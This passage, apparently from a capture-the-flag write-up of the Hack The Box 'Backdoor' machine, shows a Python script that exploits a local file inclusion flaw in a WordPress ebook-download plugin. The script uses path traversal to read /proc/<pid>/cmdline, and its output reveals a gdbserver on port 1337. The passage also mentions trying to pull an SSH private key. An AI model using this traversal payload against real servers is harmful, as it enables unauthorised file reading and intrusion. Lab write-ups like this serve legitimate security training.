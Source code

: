 - I tried getting the `id_rsa` with LFI but the `user` directory didn't have any ssh keys
- The port 1337 had `?waste` service which nmap said ( NOTE : `?waste` wasn't the service running on port 1337 )
- Let's check what service that port had
- I read the man page for proc and found `/cmdline` intresting which tells sumary about a service  
- Man page of `proc` : https://man7.org/linux/man-pages/man5/proc.5.html
- I didn't found any exploits that shows services , so I made one 

#### Check Services

- Exploit.py
  ```py
  import requests

  url = 'http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl='
  pl = []
  start = 900 # The service was on 956 for me, if you didn't found the service try changing the start point
  for i in range(start,1010):  
      pl.append(f'{url}../../../../../../../../../../../../../../../proc/{i}/cmdline')
 
  for i in pl:
      r = requests.get(i)
      check = r.text
      if '1337' in check:
          print(check)
          print('SERVICE SUCCESSFULLY FOUND')
          break
      else:
          print(f'trying on /proc/{start}/cmdline')
          start+=1
  ```

- Output.txt
  
```bash
../../../../../../../../../../../../../../../proc/956/cmdline
../../../../../../../../../../../../../../../proc/956/cmdline
../../../../../../../../../../../../../../../proc/956/cmdline

/bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done

<script>window.close()</script>

 ```
 
- So the `port 1337` is running a `gdbserver`

![image](https://user-images.githubusercontent.com/56447720/142758972-3707c8b8-2ef8-4433-9b71-8044675135e3.png)

- Link : https://www.rapid7.com/db/modules/exploit/multi/gdb/gdb_server_exec/

## User Shell
